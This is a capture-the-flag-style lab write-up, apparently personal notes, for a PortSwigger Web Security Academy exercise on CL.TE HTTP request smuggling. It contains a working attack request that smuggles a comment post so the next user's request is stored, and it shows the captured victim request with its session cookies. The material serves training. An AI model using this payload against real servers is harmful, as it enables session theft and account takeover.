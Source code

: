 ### Lab: Exploiting HTTP request smuggling to capture other users' requests

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account. 

This request return timeout error, confirm a CL.TE vul
```
POST / HTTP/1.1
Host: 0a5000fc0440a74a85693ce800060037.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 6

3
abc
X
```
Attack request:
```
POST / HTTP/1.1
Host: 0a3900f70423418a82e6067000950074.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 336

0

POST /post/comment HTTP/1.1
Host: 0a3900f70423418a82e6067000950074.web-security-academy.net
Cookie: session=ahHFuwZBj9nct9OjC4E85WCSleJx4Lj5
Content-Length: 860
Content-Type: application/x-www-form-urlencoded

csrf=RNxglTxbxzXedzI6d9bE9645tRPaGbrh&postId=8&name=name&email=admin%40a&website=http%3A%2F%2Fa.com&comment=comment
```
```
<p>commentGET / HTTP/1.1
Host: 0a3900f70423418a82e6067000950074.web-security-academy.net
sec-ch-ua: &quot;Google Chrome&quot;;v=&quot;125&quot;, &quot;Chromium&quot;;v=&quot;125&quot;, &quot;Not.A/Brand&quot;;v=&quot;24&quot;
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: &quot;Linux&quot;
upgrade-insecure-requests: 1
user-agent: Chrome/943984
accept: text/html,application/xhtml xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-fetch-site: none
sec-fetch-mode: navigate
sec-fetch-user: ?1
sec-fetch-dest: document
accept-encoding: gzip, deflate, br, zstd
accept-language: en-US,en;q=0.9
priority: u=0, i
cookie: victim-fingerprint=FOQbOcyDMORLDzZvWkNraxzjgLU1hE43; secret=M2IKuP7LQZKSA56g75uDLunIAAsngFx7; session=bVSPIITd1ETWGKXesjqDVdqpx0kgyRec
Co</p>
```
### Using HTTP request smuggling to exploit reflected XSS
